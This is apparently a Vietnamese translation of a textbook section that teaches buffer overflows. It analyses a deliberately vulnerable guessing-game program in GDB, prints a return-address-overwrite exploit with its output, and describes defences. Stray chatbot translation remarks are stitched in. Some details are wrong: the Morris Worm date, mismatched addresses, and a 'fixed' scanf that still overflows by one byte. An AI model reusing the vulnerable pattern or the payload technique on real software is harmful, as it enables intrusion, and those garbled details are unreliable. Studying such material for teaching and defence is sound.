




Dưới đây là bản dịch tiếng Việt của đoạn bạn cung cấp, tuân thủ đầy đủ các quy ước đã nêu:

---

## 7.10. Thực tế: Buffer Overflow

Ngôn ngữ C không thực hiện việc kiểm tra giới hạn mảng (array bounds checking) một cách tự động. Việc truy cập bộ nhớ nằm ngoài phạm vi của một mảng là vấn đề nghiêm trọng và thường dẫn đến các lỗi như **segmentation fault**. Tuy nhiên, một kẻ tấn công tinh vi có thể chèn mã độc nhằm cố ý vượt quá giới hạn của mảng (còn gọi là **buffer**) để buộc chương trình thực thi theo cách không mong muốn. Trong trường hợp tồi tệ nhất, kẻ tấn công có thể chạy mã cho phép chúng giành được **root privilege** (đặc quyền root), tức quyền truy cập cấp hệ điều hành vào hệ thống máy tính. Một phần mềm lợi dụng sự tồn tại của một lỗi **buffer overrun** đã biết trong chương trình được gọi là **buffer overflow exploit**.

Trong phần này, chúng ta sẽ sử dụng **GDB** và ngôn ngữ assembly để phân tích đầy đủ cơ chế của một buffer overflow exploit. Trước khi đọc chương này, chúng tôi khuyến khích bạn xem chương nói về [GDB để kiểm tra mã assembly](../C3-C_debug/gdb_assembly.html#_debugging_assembly_code).

---

### 7.10.1. Các ví dụ nổi tiếng về Buffer Overflow

Các buffer overflow exploit xuất hiện từ những năm 1980 và vẫn là một mối đe dọa lớn đối với ngành công nghiệp máy tính cho đến đầu những năm 2000. Mặc dù nhiều hệ điều hành hiện đại đã có các cơ chế bảo vệ chống lại những kiểu tấn công buffer overflow đơn giản nhất, nhưng các lỗi lập trình bất cẩn vẫn có thể khiến các chương trình hiện đại dễ dàng bị tấn công. Gần đây, các buffer overflow exploit đã được phát hiện trong Skype¹, Android², Google Chrome³ và nhiều phần mềm khác.

Dưới đây là một số ví dụ lịch sử đáng chú ý về buffer overflow exploit:

**The Morris Worm**  
Morris Worm⁴ được phát tán vào năm 1998 trên ARPANet từ MIT (nhằm che giấu việc nó được viết bởi một sinh viên Đại học Cornell) và đã khai thác một lỗ hổng buffer overrun tồn tại trong **UNIX finger daemon** (`fingerd`). Trong Linux và các hệ thống tương tự UNIX khác, **daemon** là một loại tiến trình chạy liên tục ở chế độ nền, thường thực hiện các tác vụ dọn dẹp và giám sát. Daemon `fingerd` trả về báo cáo thân thiện về một máy tính hoặc một người dùng. Điều quan trọng nhất là con sâu này có cơ chế tự nhân bản, khiến nó được gửi nhiều lần đến cùng một máy tính, làm hệ thống chậm đến mức không thể sử dụng được. Mặc dù tác giả tuyên bố rằng con sâu này chỉ là một bài tập trí tuệ vô hại, nhưng cơ chế nhân bản đã giúp nó lây lan dễ dàng và khó bị loại bỏ. Trong những năm sau đó, các loại sâu khác cũng sử dụng buffer overflow exploit để giành quyền truy cập trái phép vào hệ thống. Các ví dụ nổi bật gồm Code Red (2001), MS-SQLSlammer (2003) và W32/Blaster (2003).

**AOL Chat Wars**  
David Auerbach⁵, một cựu kỹ sư của Microsoft, đã kể lại trải nghiệm của mình với một buffer overflow trong quá trình tích hợp **Microsoft Messenger Service** (MMS) với **AOL Instant Messenger** vào cuối những năm 1990. Khi đó, AOL Instant Messenger (AIM) là dịch vụ nhắn tin nhanh phổ biến nhất. Microsoft tìm cách tham gia thị trường này bằng cách thiết kế một tính năng trong MMS cho phép người dùng MMS trò chuyện với các “buddies” trên AIM. Không hài lòng, AOL đã vá máy chủ của họ để MMS không thể kết nối nữa. Các kỹ sư Microsoft tìm ra cách để các client MMS bắt chước thông điệp mà client AIM gửi tới máy chủ AOL, khiến AOL khó phân biệt giữa tin nhắn từ MMS và AIM. AOL đáp trả bằng cách thay đổi cách AIM gửi tin nhắn, và các kỹ sư MMS lại điều chỉnh để phù hợp. “Cuộc chiến chat” này tiếp diễn cho đến khi AOL bắt đầu sử dụng một lỗi buffer overflow *ngay trong client của họ* để xác minh rằng tin nhắn được gửi từ client AIM. Vì client MMS không có cùng lỗ hổng này, cuộc chiến chat kết thúc với phần thắng thuộc về AOL.

---

### 7.10.2. Cái nhìn đầu tiên: Trò chơi đoán số

Để giúp bạn hiểu cơ chế của một cuộc tấn công buffer overflow, chúng tôi cung cấp một chương trình thực thi đơn giản cho phép người dùng chơi trò chơi đoán số với chương trình. Tải tệp thực thi `secret` tại [liên kết này](_attachments/secretx86-64.tar.gz) và giải nén bằng lệnh `tar`:

```
$ tar -xzvf secretx86-64.tar.gz
```

Dưới đây là bản sao của `main.c` ([main.c](_attachments/main.c)), tệp chính liên quan đến tệp thực thi:

```
#include <stdio.h>
#include <stdlib.h>
#include "other.h" //contains secret function definitions

/*prints out the You Win! message*/
void endGame(void) {
    printf("You win!\n");
    exit(0);
}

/*main function of the game*/
int main(void) {
    int guess, secret, len, x=3;
    char buf[12]; //buffer (12 bytes long)

    printf("Enter secret number:\n");
    scanf("%s", buf); //read guess from user input
    guess = atoi(buf); //convert to an integer

    secret = getSecretCode(); //call the getSecretCode function

    //check to see if guess is correct
    if (guess == secret) {
        printf("You got it right!\n");
    }
    else {
        printf("You are so wrong!\n");
        return 1; //if incorrect, exit
    }

    printf("Enter the secret string to win:\n");
    scanf("%s", buf); //get secret string from user input

    guess = calculateValue(buf, strlen(buf)); //call calculateValue function

    //check to see if guess is correct
    if (guess != secret) {
        printf("You lose!\n");
        return 2; //if guess is wrong, exit
    }

    /*if both the secret string and number are correct
    call endGame()*/
    endGame();

    return 0;
}
```


Trò chơi này yêu cầu người dùng nhập trước một số bí mật, sau đó là một chuỗi bí mật để thắng trò chơi. Tệp header `other.h` chứa định nghĩa của các hàm `getSecretCode` và `calculateValue`, nhưng chúng ta không có tệp này. Vậy làm thế nào để người dùng thắng trò chơi? Thử brute force sẽ mất quá nhiều thời gian. Một chiến lược là phân tích tệp thực thi `secret` trong GDB và từng bước theo dõi mã assembly để tìm ra số và chuỗi bí mật. Quá trình phân tích mã assembly để tìm hiểu cách nó hoạt động thường được gọi là **reverse engineering** assembly. Những người đã quen với GDB và đọc assembly có thể tìm ra số và chuỗi bí mật bằng cách reverse engineer chúng trong GDB.

Tuy nhiên, vẫn còn một cách khác, tinh vi hơn để chiến thắng.

---

### 7.10.3. Xem xét kỹ hơn (Under the C)

Chương trình chứa một lỗ hổng buffer overrun tiềm ẩn tại lần gọi `scanf` đầu tiên. Để hiểu chuyện gì đang xảy ra, hãy kiểm tra mã assembly của hàm `main` bằng GDB. Chúng ta cũng sẽ đặt một **breakpoint** tại địa chỉ `0x0000000000400717`, đây là địa chỉ của lệnh ngay trước khi gọi `scanf` (lưu ý rằng nếu đặt breakpoint tại địa chỉ của `scanf` thì chương trình sẽ dừng *bên trong* lệnh gọi `scanf`, chứ không phải trong `main`).


```
    0x00000000004006f2 <+0>:   push   %rbp
    0x00000000004006f3 <+1>:   mov    %rsp,%rbp
    0x00000000004006f6 <+4>:   sub    $0x20,%rsp
    0x00000000004006fa <+8>:   movl   $0x3,-0x4(%rbp)
    0x0000000000400701 <+15>:  mov    $0x400873,%edi
    0x0000000000400706 <+20>:  callq  0x400500 <printf@plt>
    0x000000000040070b <+25>:  lea    -0x20(%rbp),%rax
    0x000000000040070f <+29>:  mov    %rax,%rsi
    0x0000000000400712 <+32>:  mov    $0x400888,%edi
=>  0x0000000000400717 <+37>:  mov    $0x0,%eax
    0x000000000040071c <+42>:  callq  0x400540 <scanf@plt>
```


Dưới đây là bản dịch tiếng Việt của đoạn bạn cung cấp, tuân thủ đầy đủ các quy ước đã nêu:

---

Hình 1 mô tả stack ngay trước khi gọi `scanf`.



**Hình 1.** Call stack ngay trước khi gọi `scanf`

Trước khi gọi `scanf`, hai đối số đầu tiên của `scanf` lần lượt được nạp sẵn vào các thanh ghi `%edi` và `%rsi`. Lệnh `lea` tại vị trí `<main+25>` tạo tham chiếu cho mảng `buf`.

Bây giờ, giả sử người dùng nhập `1234567890` tại dấu nhắc. [Hình 2](#afterScanf) minh họa stack trông như thế nào ngay sau khi lệnh `scanf` hoàn tất.



**Hình 2.** Call stack ngay sau khi gọi `scanf` với đầu vào `1234567890`

Hãy nhớ rằng giá trị hex của mã ASCII cho các chữ số từ 0 đến 9 là từ 0x30 đến 0x39, và mỗi ô nhớ trên stack có kích thước 8 byte. **Frame pointer** cách **stack pointer** 32 byte. Người đọc có thể xác nhận giá trị của `%rbp` bằng cách dùng GDB để in ra (`p $rbp`). Trong ví dụ này, `%rbp` có giá trị `0x7fffffffdd10`. Lệnh sau cho phép kiểm tra 48 byte (dưới dạng hex) bên dưới thanh ghi `%rsp`:

```
(gdb) x /48bx $rsp
```

Lệnh GDB này cho ra kết quả tương tự như sau:

```
(gdb) x /48bx $rsp
0x7fffffffdcf0: 0x31  0x32  0x33  0x34  0x35  0x36  0x37  0x38
0x7fffffffdcf8: 0x39  0x30  0x00  0x00  0x00  0x00  0x00  0x00
0x7fffffffdd00: 0xf0  0xdd  0xff  0xff  0xff  0x7f  0x00  0x00
0x7fffffffdd08: 0x00  0x00  0x00  0x00  0x03  0x00  0x00  0x00
0x7fffffffdd10: 0xd0  0x07  0x40  0x00  0x00  0x00  0x00  0x00
0x7fffffffdd18: 0x30  0xd8  0xa2  0xf7  0xff  0x7f  0x00  0x00
```

Mỗi dòng biểu diễn một địa chỉ 64-bit, hoặc hai địa chỉ 32-bit. Vì vậy, giá trị gắn với địa chỉ 32-bit `0x7fffffffdd0c` nằm ở 4 byte ngoài cùng bên phải của dòng hiển thị `0x7fffffffdd08`.

> **Giá trị nhiều byte được lưu theo thứ tự little-endian**  
> Trong đoạn assembly ở trên, byte tại địa chỉ `0xf7ffffffdd00` là `0xf0`, byte tại `0xf7ffffffdd01` là `0xdd`, byte tại `0xf7ffffffdd02` là `0xff`, byte tại `0xf7ffffffdd03` là `0xff`, byte tại `0xf7ffffffdd04` là `0xff`, và byte tại `0xf7ffffffdd05` là `0x7f`. Tuy nhiên, *giá trị* 64-bit tại địa chỉ `0x7fffffffdd00` thực tế là `0x7fffffffddf0`. Hãy nhớ rằng vì x86-64 là một hệ thống [little-endian](../C4-Binary/byte_order.html#_integer_byte_order), các byte của giá trị nhiều byte (như địa chỉ) được lưu theo thứ tự đảo ngược.

Trong ví dụ này, địa chỉ của `buf` nằm ở đỉnh stack. Do đó, hai địa chỉ đầu tiên chứa các byte đầu vào tương ứng với chuỗi `1234567890`:

```
0x7fffffffdcf0: 0x31  0x32  0x33  0x34  0x35  0x36  0x37  0x38
0x7fffffffdcf8: 0x39  0x30  0x00  0x00  0x00  0x00  0x00  0x00
```

Byte kết thúc null `\0` xuất hiện ở byte có trọng số thứ ba tại địa chỉ `0x7fffffffdcf8` (tức tại `0x7fffffffdcfa`). Hãy nhớ rằng `scanf` luôn kết thúc chuỗi bằng một byte null.

Tất nhiên, `1234567890` không phải là số bí mật. Đây là kết quả khi chạy `secret` với chuỗi đầu vào `1234567890`:

```
$ ./secret
Enter secret number:
1234567890
You are so wrong!
$ echo $?
1
```

Lệnh `echo $?` in ra giá trị trả về của lệnh cuối cùng được thực thi trong shell. Trong trường hợp này, chương trình trả về `1` vì số bí mật nhập vào sai. Theo quy ước, chương trình trả về `0` khi không có lỗi. Mục tiêu của chúng ta là tìm cách khiến chương trình thoát với giá trị trả về `0`, nghĩa là chúng ta thắng trò chơi.

---

### 7.10.4. Buffer Overflow: Lần thử đầu tiên

Tiếp theo, hãy thử nhập chuỗi  
`1234567890123456789012345678901234567890123`:

```
$ ./secret
Enter secret number:
1234567890123456789012345678901234567890123
You are so wrong!
Segmentation fault (core dumped)
$ echo $?
139
```

Thú vị đấy! Lần này chương trình bị crash với lỗi segmentation fault, mã trả về 139. **Hình 3** cho thấy call stack của `main` ngay sau khi gọi `scanf` với chuỗi đầu vào mới này.



**Hình 3.** Call stack ngay sau khi gọi `scanf` với đầu vào `1234567890123456789012345678901234567890123`

Chuỗi nhập vào dài đến mức không chỉ ghi đè các giá trị tại `0xd08` và `0xd10`, mà còn tràn xuống ghi đè cả **return address** bên dưới stack frame của `main`. Hãy nhớ rằng khi một hàm trả về, chương trình sẽ cố gắng tiếp tục thực thi tại địa chỉ được lưu trong return address. Trong ví dụ này, chương trình cố gắng tiếp tục tại địa chỉ `0xf7ff00333231` sau khi thoát `main`, nhưng địa chỉ này không tồn tại. Vì vậy, chương trình bị crash với segmentation fault.

Chạy lại chương trình trong GDB (`input.txt` chứa chuỗi đầu vào ở trên) cho thấy rõ điều này:

```
$ gdb secret
(gdb) break *0x0000000000400717
(gdb) run < input.txt
(gdb) ni
(gdb) x /48bx $rsp
0x7fffffffdcf0: 0x31  0x32  0x33  0x34  0x35  0x36  0x37  0x38
0x7fffffffdcf8: 0x39  0x30  0x31  0x32  0x33  0x34  0x35  0x36
0x7fffffffdd00: 0x37  0x38  0x39  0x30  0x31  0x32  0x33  0x34
0x7fffffffdd08: 0x35  0x36  0x37  0x38  0x39  0x30  0x31  0x32
0x7fffffffdd10: 0x33  0x34  0x35  0x36  0x37  0x38  0x39  0x30
0x7fffffffdd18: 0x31  0x32  0x33  0x00  0xff  0x7f  0x00  0x00
(gdb) n
Single stepping until exit from function main,
which has no line number information.
You are so wrong!
0x00007fff00333231 in ?? ()
```

Tất nhiên rồi, mình sẽ tiếp tục phần dịch còn lại ngay đây nhé — nối tiếp từ chỗ chúng ta đang nói về chuỗi nhập đã vượt quá giới hạn mảng `buf` và gây ra lỗi **smashing the stack**.

---

…Hãy chú ý rằng chuỗi nhập vào đã vượt quá giới hạn khai báo của mảng `buf`, ghi đè toàn bộ các giá trị khác được lưu trên stack. Nói cách khác, chuỗi này đã tạo ra một **buffer overrun** và làm hỏng **call stack**, khiến chương trình bị crash. Quá trình này còn được gọi là **smashing the stack**.

Khi điều này xảy ra, không chỉ dữ liệu cục bộ bị ghi đè, mà cả **return address** (địa chỉ trả về) của hàm `main` cũng bị thay đổi. Vì CPU sẽ cố gắng tiếp tục thực thi tại địa chỉ được lưu trong return address khi hàm kết thúc, nên nếu địa chỉ này bị thay đổi thành một giá trị không hợp lệ (hoặc trỏ đến vùng bộ nhớ không được phép truy cập), chương trình sẽ gặp lỗi **segmentation fault** ngay lập tức.

Đây chính là nguyên lý cơ bản mà các cuộc tấn công **buffer overflow exploit** khai thác:  
- Nếu kẻ tấn công có thể kiểm soát dữ liệu ghi đè lên return address,  
- Họ có thể khiến chương trình nhảy tới và thực thi mã tùy ý do họ chèn vào bộ nhớ.

Trong ví dụ này, chúng ta mới chỉ vô tình (hoặc cố ý) làm hỏng return address bằng một chuỗi ký tự dài, dẫn đến crash. Nhưng với kỹ thuật tinh vi hơn, kẻ tấn công có thể thay thế return address bằng địa chỉ của một đoạn mã độc đã được chuẩn bị sẵn trong bộ nhớ, từ đó chiếm quyền điều khiển chương trình.

### 7.10.5. Buffer Overflow thông minh hơn: Lần thử thứ hai

Ví dụ đầu tiên của chúng ta đã **smash the stack** (đập vỡ stack) bằng cách ghi đè thanh ghi `%rbp` và **return address** (địa chỉ trả về) bằng dữ liệu rác, khiến chương trình bị crash. Một kẻ tấn công chỉ muốn làm chương trình sập thì đến đây đã hài lòng. Tuy nhiên, mục tiêu của chúng ta là **đánh lừa** trò chơi đoán số để nó trả về giá trị 0, cho thấy rằng chúng ta đã thắng. Chúng ta sẽ làm điều này bằng cách lấp đầy **call stack** bằng dữ liệu có ý nghĩa hơn là giá trị rác. Ví dụ, ta có thể ghi đè stack sao cho return address được thay thế bằng địa chỉ của hàm `endGame`. Khi đó, khi chương trình cố gắng trả về từ `main`, nó sẽ thực thi `endGame` thay vì crash với segmentation fault.

Để tìm địa chỉ của `endGame`, hãy kiểm tra lại `secret` trong GDB:


```
$ gdb secret
(gdb) disas endGame
Dump of assembler code for function endGame:
    0x00000000004006da <+0>:   push   %rbp
    0x00000000004006db <+1>:   mov    %rsp,%rbp
    0x00000000004006de <+4>:   mov    $0x40086a,%edi
    0x00000000004006e3 <+9>:   callq  0x400500 <puts@plt>
    0x00000000004006e8 <+14>:  mov    $0x0,%edi
    0x00000000004006ed <+19>:  callq  0x400550 <exit@plt>
End of assembler dump.
```

Quan sát thấy `endGame` bắt đầu tại địa chỉ `0x00000000004006da`. [Hình 4](#finalExploit) minh họa một ví dụ exploit buộc `secret` chạy hàm `endGame`.



**Hình 4.** Một chuỗi mẫu có thể buộc `secret` thực thi hàm `endGame`

Về cơ bản, có 40 byte dữ liệu rác theo sau là return address. Một lần nữa, vì x86-64 là hệ thống [little-endian](../C4-Binary/byte_order.html#_integer_byte_order), các byte trong return address sẽ xuất hiện theo thứ tự đảo ngược.

Chương trình sau minh họa cách một kẻ tấn công có thể tạo ra exploit ở trên:

```c
#include <stdio.h>

char ebuff[]=
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*first 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*next 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*following 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*last 10 bytes of junk*/
"\xda\x06\x40\x00\x00\x00\x00\x00" /*address of endGame (little endian)*/
;

int main(void) {
    int i;
    for (i = 0; i < sizeof(ebuff); i++) { /*print each character*/
        printf("%c", ebuff[i]);
    }
    return 0;
}
```

Ký hiệu `\x` trước mỗi số cho biết số đó được định dạng dưới dạng giá trị hex của một ký tự. Sau khi định nghĩa `ebuff[]`, hàm `main` chỉ đơn giản in ra từng ký tự một. Để tạo chuỗi byte tương ứng, biên dịch và chạy chương trình như sau:

```
$ gcc -o genEx genEx.c
$ ./genEx > exploit
```

Để dùng tệp `exploit` làm đầu vào cho `scanf`, chỉ cần chạy `secret` với `exploit` như sau:

```
$ ./secret < exploit
Enter secret number:
You are so wrong!
You win!
```

Chương trình in ra `"You are so wrong!"` vì chuỗi trong `exploit` *không* phải là số bí mật. Tuy nhiên, chương trình cũng in ra `"You win!"`. Hãy nhớ rằng mục tiêu của chúng ta là đánh lừa chương trình trả về 0. Trong một hệ thống lớn hơn, nơi trạng thái “thành công” được theo dõi bởi một chương trình bên ngoài, điều quan trọng nhất thường là giá trị trả về của chương trình, chứ không phải những gì nó in ra.

Kiểm tra giá trị trả về:

```
$ echo $?
0
```

Exploit của chúng ta đã thành công! Chúng ta đã thắng trò chơi.

---

### 7.10.6. Bảo vệ chống lại Buffer Overflow

Ví dụ trên đã thay đổi **control flow** (luồng điều khiển) của tệp thực thi `secret`, buộc nó trả về giá trị 0 (thành công). Tuy nhiên, một exploit như vậy có thể gây ra thiệt hại thực sự. Hơn nữa, một số hệ thống máy tính cũ *thực thi* các byte từ bộ nhớ stack. Nếu kẻ tấn công đặt các byte tương ứng với lệnh assembly lên call stack, CPU sẽ diễn giải các byte này như các lệnh *thực sự*, cho phép kẻ tấn công buộc CPU thực thi *bất kỳ mã tùy ý nào họ muốn*. May mắn thay, các hệ thống máy tính hiện đại có nhiều chiến lược để làm cho việc chạy buffer overflow exploit trở nên khó khăn hơn:

- **Stack randomization**: Hệ điều hành cấp phát địa chỉ bắt đầu của stack tại một vị trí ngẫu nhiên trong bộ nhớ stack, khiến vị trí/kích thước của call stack thay đổi giữa các lần chạy. Nhiều máy chạy cùng một chương trình sẽ có địa chỉ stack khác nhau. Các hệ thống Linux hiện đại sử dụng stack randomization như một tiêu chuẩn. Tuy nhiên, một kẻ tấn công kiên trì có thể brute force bằng cách thử nhiều địa chỉ khác nhau. Một mẹo phổ biến là dùng **NOP sled** (một dãy dài lệnh `nop`) trước mã exploit thực sự. Lệnh `nop` (`0x90`) không làm gì ngoài việc tăng program counter sang lệnh tiếp theo. Miễn là CPU bắt đầu thực thi ở đâu đó trong NOP sled, nó sẽ trượt đến đoạn mã exploit theo sau. Bài viết *Smashing the Stack for Fun and Profit* của Aleph One⁶ mô tả chi tiết cơ chế tấn công này.

- **Stack corruption detection**: Một biện pháp khác là phát hiện khi stack bị hỏng. Các phiên bản GCC gần đây sử dụng **stack protector** gọi là **canary** đóng vai trò như một “chim báo” giữa buffer và các phần tử khác của stack. Canary là một giá trị được lưu ở vùng bộ nhớ không thể ghi, có thể so sánh với giá trị đặt trên stack. Nếu canary “chết” trong quá trình chạy, chương trình biết rằng nó đang bị tấn công và sẽ dừng với thông báo lỗi. Tuy nhiên, một kẻ tấn công tinh vi có thể thay thế canary để tránh bị phát hiện.

- **Limiting executable regions**: Biện pháp này giới hạn mã thực thi chỉ ở một số vùng bộ nhớ nhất định. Nói cách khác, call stack không còn được phép thực thi. Tuy nhiên, ngay cả biện pháp này cũng có thể bị vượt qua. Trong một cuộc tấn công sử dụng **return-oriented programming** (ROP), kẻ tấn công có thể “cherry-pick” các lệnh trong vùng có thể thực thi và nhảy từ lệnh này sang lệnh khác để tạo thành exploit. Có nhiều ví dụ nổi tiếng về kỹ thuật này trên mạng, đặc biệt trong các trò chơi điện tử⁷.

Tuy nhiên, tuyến phòng thủ tốt nhất luôn là lập trình viên. Để ngăn chặn buffer overflow trong chương trình của bạn, hãy sử dụng các hàm C có **length specifier** (chỉ định độ dài) bất cứ khi nào có thể và thêm mã kiểm tra giới hạn mảng. Điều quan trọng là mọi mảng được khai báo phải khớp với length specifier đã chọn. **Bảng 1** liệt kê một số hàm C “xấu” dễ bị buffer overflow và hàm “tốt” tương ứng nên dùng (giả sử `buf` được cấp phát 12 byte).

| Thay vì:               | Hãy dùng:                          |
|------------------------|-------------------------------------|
| `gets(buf)`            | `fgets(buf, 12, stdin)`             |
| `scanf("%s", buf)`     | `scanf("%12s", buf)`                |
| `strcpy(buf2, buf)`    | `strncpy(buf2, buf, 12)`            |
| `strcat(buf2, buf)`    | `strncat(buf2, buf, 12)`            |
| `sprintf(buf, "%d", num)` | `snprintf(buf, 12, "%d", num)`   |

**Bảng 1.** Các hàm C với **length specifier** (chỉ định độ dài)

Tệp thực thi `secret2`  
([secret2x86-64.tar.gz](_attachments/secret2x86-64.tar.gz)) không còn lỗ hổng **buffer overflow** nữa. Hàm `main` của tệp thực thi mới này ([main2.c](_attachments/main2.c)) được hiển thị bên dưới:

```c
#include <stdio.h>
#include <stdlib.h>
#include "other.h" //contain secret function definitions

/*prints out the You Win! message*/
void endGame(void) {
    printf("You win!\n");
    exit(0);
}

/*main function of the game*/
int main(void) {
    int guess, secret, len, x=3;
    char buf[12]; //buffer (12 bytes long)

    printf("Enter secret number:\n");
    scanf("%12s", buf); //read guess from user input (fixed!)
    guess = atoi(buf); //convert to an integer

    secret=getSecretCode(); //call the getSecretCode function

    //check to see if guess is correct
    if (guess == secret) {
        printf("You got it right!\n");
    }
    else {
        printf("You are so wrong!\n");
        return 1; //if incorrect, exit
    }

    printf("Enter the secret string to win:\n");
    scanf("%12s", buf); //get secret string from user input (fixed!)

    guess = calculateValue(buf, strlen(buf)); //call calculateValue function

    //check to see if guess is correct
    if (guess != secret) {
        printf("You lose!\n");
        return 2; //if guess is wrong, exit
    }

    /*if both the secret string and number are correct
    call endGame()*/
    endGame();

    return 0;
}
```


Hãy chú ý rằng chúng ta đã thêm **length specifier** vào tất cả các lời gọi `scanf`, khiến hàm `scanf` dừng đọc dữ liệu từ đầu vào sau khi đọc đủ 12 byte đầu tiên. Chuỗi exploit giờ đây không còn làm chương trình bị lỗi nữa:

```
$ ./secret2 < exploit
Enter secret number:
You are so wrong!
$ echo $?
1
```

Tất nhiên, bất kỳ độc giả nào có kỹ năng **reverse engineering** cơ bản vẫn có thể thắng trò chơi đoán số này bằng cách phân tích mã assembly. Nếu bạn chưa thử đánh bại chương trình bằng reverse engineering, chúng tôi khuyến khích bạn thử ngay bây giờ.

### References

1.  Mohit Kumar. [Critical Skype Bug Lets Hackers Remotely ExecuteMaliciousCode](https://thehackernews.com/2017/06/skype-crash-bug.html). 2017.
2.  Tamir Zahavi-Brunner. [CVE-2017-13253: Buffer overflow in multipleAndroid DRMservices](https://blog.zimperium.com/cve-2017-13253-buffer-overflow-multiple-android-drm-services/).2018.
3.  Tom Spring. [Google Patches 'High Severity' BrowserBug](https://threatpost.com/google-patches-high-severity-browser-bug/128661/).2017.
